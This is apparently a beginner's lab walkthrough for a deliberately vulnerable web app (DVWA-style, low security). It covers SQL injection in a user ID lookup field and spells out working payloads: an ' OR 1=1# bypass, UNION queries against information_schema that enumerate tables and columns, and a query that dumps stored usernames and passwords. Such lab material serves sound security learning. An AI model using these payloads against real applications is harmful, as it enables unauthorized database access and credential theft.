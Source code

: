 🧨 SQL Injection – Low Security Level

### 🛠️ Objective:
Exploit SQL injection vulnerability in user ID lookup to extract database structure and credentials.

---

### 🧭 Walkthrough

1. Enter a number (e.g., `1`) in the input field.
   - You’ll see details for `user ID 1`.

2. Now enter a basic SQLi payload to bypass the logic:
   ```sql
   ' OR 1=1#
````

✅ Displays all user records — the query always returns true.

---

### 📊 Enumerating the Database

#### 🔎 Extract Table Names

```sql
' UNION SELECT table_name, null FROM information_schema.tables#
```

* ✅ Reveals available tables.
* Look for relevant tables like `users`.

#### 🔎 Extract Column Names

```sql
' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name='users'#
```

* ✅ Reveals column names: `id`, `user`, `password`, etc.

#### 🔐 Dump User Credentials

```sql
' UNION SELECT user, password FROM users#
```

* ✅ Retrieves all usernames and passwords stored in the `users` table.

---

### 🧩 Summary

* ❌ No input validation or sanitization
* ✅ Full SQL control from the input field
* 🟢 Very beginner-friendly

## ✅ Status

* ✅ Fully exploitable
* 🟢 Ideal for learning SQLi basics
